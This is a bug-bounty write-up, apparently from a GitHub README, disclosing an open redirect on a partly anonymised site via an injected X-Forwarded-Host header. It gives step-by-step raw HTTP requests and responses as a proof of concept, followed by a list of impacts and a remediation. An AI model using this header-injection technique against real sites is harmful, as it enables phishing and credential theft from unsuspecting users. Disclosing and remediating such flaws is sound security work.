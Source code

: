 # Open-redirect-On-XYZ.com-Via-X-Forwarded-Host-Header
xyz.com is the made up website domain of a company I found the vulnerability on Hackerone , will keep the real name confidential.

# Description
I noticed that the below requests was vulnerable to an open redirect via the host header injection, because the url redirection link is gotten from the host header value and it is not verified thus allowing me to redirect a user to another website similar to the login page and steal user credentials.


Request
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
Response
-------------------snip--------------------------
<html><body>You are being <a href="https://atlas.xyz.tools/auth/saml?redirectUrl=https://atlas.xyz.tools">redirected</a>.</body></html>

```

# Steps To Reproduce

I will be using google.com and facebook.com as an example of a malicious hacker website.

STEP 1 : Visit atlas.instacart.com and capture the request below with burpsuite and send to the repeater.
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
```
STEP 2: Modify the request by adding X-Forwarded-Host: facebook.com or google.com.

Note: This can also be done by modifying the Host header value but when X-Forwarded-Host Header is present within the request, the redirect url is gotten from the value of the X-Forwarded-Host Header instead of the Host Header.


The request when modified should be as this below :
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
X-Forwarded-Host: facebook.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
send the request via the repeater , response should be
-----------snip-------------------------------
<html><body>You are being <a href="https://facebook.com/auth/saml?redirectUrl=https://facebook.com">redirected</a>.</body></html>
```

Following the redirection.......
```plaintext
GET /auth/saml?redirectUrl=https://facebook.com HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
Upgrade-Insecure-Requests: 1
Host: facebook.com
```

Another request I was able to get a redirect easily was with the request below
```plaintext
GET / HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Host: facebook.com
--------------------snip------------------------
```
Response
```plaintext
------------------snip--------------------------------------
<a class="btn btn-primary btn-lg" role="button" id="sign_in" href="https://facebook.com/login">Sign in</a>
```
<div align="center">
  <img src="Burp_Suite_Community_Edition_v2020.12.1_-_Temporary_Project_27_02_2022_12_04_48.png" alt="Project Image">
</div>

Request the response in browser session
As soon as the sign in button is clicked the user is redirected to a facebook.com instead of atlas.xyz.tools/login.

# Remediation

This open redirection is possible because of unvalidated inputs gotten from the header requests. The redirection url is gotten from the host header but when the X-Forwarded-Host header is present, it can override the Host header value even if it is the correct redirection url thus the way to prevent this attack is to disable the X-Forwarded-Host Header and validate the host header value by maybe a whitelist.

# Impact

If you have an open redirection vulnerability, it makes many other attacks possible:

1). <b>Phishing :</b> The most obvious way to use an open redirect is to steer the victim away from the original site to a site that looks the same, steal user credentials, and then return to the vulnerable website as if nothing happened.

2). <b>Cross-site Scripting (XSS):</b> If the redirect allows the use of data: or javascript: protocols and the client supports such protocols in redirects, it makes it possible for the attacker to perform an XSS attack.

3). <b>Server-Side Request Forgery (SSRF):</b> Open redirects may be used to evade SSRF filters.

4). <b>Content-Security-Policy bypassing:</b> If you use CSP to protect against XSS and one of the whitelisted domains has an open redirect, this vulnerability may be used to bypass CSP.

5). <b>CRLF Injection:</b> If the redirection parameter allows line breaks, the attacker may try to perform response header splitting.

# Summary

Redirects are a common part of website operations but can cause application security risks when carelessly implemented.

An open redirect endpoint accepts un-trusted inputs as the target URL, allowing attackers to redirect users to a malicious website and opening up a wide array of attack vectors. Exploitation can be as simple as manually changing a URL parameter value to an attacker-controlled site.
